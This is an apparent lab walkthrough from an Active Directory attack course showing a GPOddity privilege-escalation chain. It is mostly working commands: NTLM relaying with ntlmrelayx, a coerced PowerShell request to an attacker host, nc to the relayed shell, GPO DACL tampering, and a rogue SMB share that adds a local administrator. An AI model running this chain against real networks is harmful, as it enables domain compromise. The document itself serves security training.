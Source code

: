 A GPO with overly permissive ACL can be abused for multiple attacks.

GPOddity combines `NTLM` relaying and modification of Group Policy
Container. By relaying credentials of a user who has `WriteDACL` on GPO, we can
modify the path (`gPCFileSysPath`) of the group policy template (default
is `SYSVOL`).

>**Note: `Get-DomainGPO -Identity "DevOps Policy"`**

This enables loading of a malicious template from a location that we
control.


![[Pasted image 20250505062951.png]]

Open WSL Ubuntu shell and start NTLM relay (relay) - WSLToTh3Rescue!
```bash
sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.48 --http-port '80,8080' -i --no-smb-server
```

Create new shortcut with this command and place in writable share
```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke WebRequest -Uri 'http://172.16.100.48' -UseDefaultCredentials"

xcopy .\student548.lnk \\dcorp-ci\AI
```

After relay connect to shell
```bash
nc 127.0.0.1 11000
```

Delegate `WriteDACL` permissions to the group policy the relayed user can control 
> **Note:** Use `name` output from PowerView as GPO
```bash
write_gpo_dacl student548 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

**OR** we can add a computer and use those credentials
```bash
add_computer stdx-gpattack Secretpass@123

write_gpo_dacl stdx-gpattack$ {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

Run GPOddity to edit Group Policy
```bash
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'studentx' --password 'gG38Ngqym2DpitXuGrsJ' --command 'net localgroup administrators studentx
/add' --rogue-smbserver-ip '172.16.100.x' --rogue-smbserver-share 'std548-gp' -
-dc-ip '172.16.2.1' --smb-mode none
```

Move group policy files from GPOddity to new share folder
```bash
mkdir /mnt/c/AD/Tools/std548-gp

cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std548-gp
```

From **Admin** CMD create a the file share called `std548-gp` and grant full perms to everyone
```powershell
net share stdx-gp=C:\AD\Tools\stdx-gp /grant:Everyone,Full

icacls "C:\AD\Tools\stdx-gp" /grant Everyone:F /T
```

Check `gpcfilesyspath`
```powershell
Get-DomainGPO  -Identity "DevOps Policy"
```

Wait for Group Policy to refresh and test new privileges
```powershell
gpupdate /force

winrs -r:dcorp-ci cmd /c "set computername && set username"
```